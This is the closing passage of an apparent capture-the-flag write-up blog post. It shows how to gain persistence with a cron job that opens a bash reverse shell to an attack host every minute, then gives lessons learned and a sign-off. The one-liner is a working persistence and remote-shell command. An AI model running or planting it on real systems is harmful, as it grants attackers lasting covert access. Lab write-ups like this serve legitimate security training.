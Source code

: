 It's time to setup persistence. I know we have a root ssh key but where is the fun in that.


### Creating a cron job reverse shell: {#creating-a-cron-job-reverse-shell}

Lets setup a cron job that will call out to our attack host every 1 minute with a simple tcp shell.

```shell
(crontab -l > .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.220/80 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
```

-   {{< figure src="/ox-hugo/2025-05-19-201434_.png" >}}

Let's verify it's in the crontab by running `crontab -l`

-   {{< figure src="/ox-hugo/2025-05-19-201611_.png" >}}

As we can see it's running.

I start my listener and get a connection back after 1 minute.

-   {{< figure src="/ox-hugo/2025-05-19-201706_.png" >}}

    +Note+: This is great as a means to call back out to our attack machine, however an interval of every 1 minute is excessive, it would typically be better to set it at longer intervals to re-connect.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  It was fun to learn about git repo vulnerabilities more and use them as an attack vector.
2.  It was also great to get my head around the way to solve the race condition, took some fiddling but we got there.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Not a huge amount this time which is nice, just took my time and got on with it.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at bloodstiller dot com


